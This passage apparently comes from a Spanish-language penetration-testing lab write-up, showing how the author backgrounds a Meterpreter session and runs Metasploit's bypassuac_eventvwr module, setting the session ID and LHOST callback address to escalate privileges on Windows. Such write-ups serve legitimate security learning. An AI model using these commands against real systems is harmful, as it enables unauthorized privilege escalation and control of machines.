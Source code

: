 
Usaré el primer exploit `exploit/windows/local/bypassuac_eventvwr`. También puedo usar `exploit/windows/local/tokenmagic`.
Tengo que poner el `meterpreter` en segundo plano y desde `msfconsole` ejecutar:
```
use exploit/windows/local/bypassuac_eventvwr
```
![](img/Pasted%20image%2020240818224151.png)

Veo las opciones
```
show options
```
![](img/Pasted%20image%2020240818224225.png)

Cambio las opciones, tengo que introducir la sesión del `meterpreter` que está en segundo plano y comprobara si la IP de la mi máquina KALI es la IP correspondiente, en este caso, no corresponde, por lo que la cambio también.
```
sessions -l # Para saber la ID de la sesión en segundo plano
set SESSION ID_session
set LHOST 10.2.37.7
show options
```
